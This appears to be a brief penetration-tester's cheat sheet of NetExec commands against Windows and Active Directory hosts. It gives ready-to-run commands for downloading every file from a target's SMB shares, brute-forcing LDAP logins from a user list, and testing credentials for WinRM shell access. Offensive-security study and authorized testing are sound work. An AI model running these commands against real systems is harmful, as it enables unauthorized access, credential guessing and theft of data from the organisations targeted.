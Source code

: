 
## Dump all files from the available shares
Files saved to the following directory in Kali linux
/tmp/nxc_hosted/nxc_spider_plus]
```
nxc smb $target -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=True
```
## brute force
```
netexec ldap  $target -u users.txt   -p '$pass'
```

## Test creds for shell access via winrm
```
netexec winrm  $target -u '$username' -p '$password'
```
